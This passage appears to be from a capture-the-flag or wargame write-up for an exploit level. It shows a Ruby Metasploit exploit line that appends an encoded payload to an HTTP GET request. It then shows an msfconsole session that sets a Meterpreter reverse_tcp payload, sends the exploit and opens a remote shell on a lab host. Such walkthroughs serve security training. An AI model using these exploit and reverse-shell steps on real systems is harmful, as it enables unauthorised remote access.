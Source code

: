 Confirmed we have hit the payload! Replace the breakpoints with a Metasploit payload

{% highlight Ruby %}
...
sploit = "GET #{filename} HTTP/1.1" + payload.encoded
...
{% endhighlight %}

Send the exploit!

{% highlight bash %}
msf exploit(level00-p1) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(level00-p1) > set LHOST 192.168.79.133
LHOST => 192.168.79.133
msf exploit(level00-p1) > exploit

[*] Started reverse handler on 192.168.79.133:4444
[*] Transmitting intermediate stager for over-sized stage...(100 bytes)
[*] Sending stage (1241088 bytes) to 192.168.79.132
[*] Meterpreter session 2 opened (192.168.79.133:4444 -> 192.168.79.132:43961) at 2015-04-17 13:32:21 -0700

meterpreter >
{% endhighlight %}

Success! Meterpreter shell and the puzzle is solved.

{% highlight bash %}
{% endhighlight %}
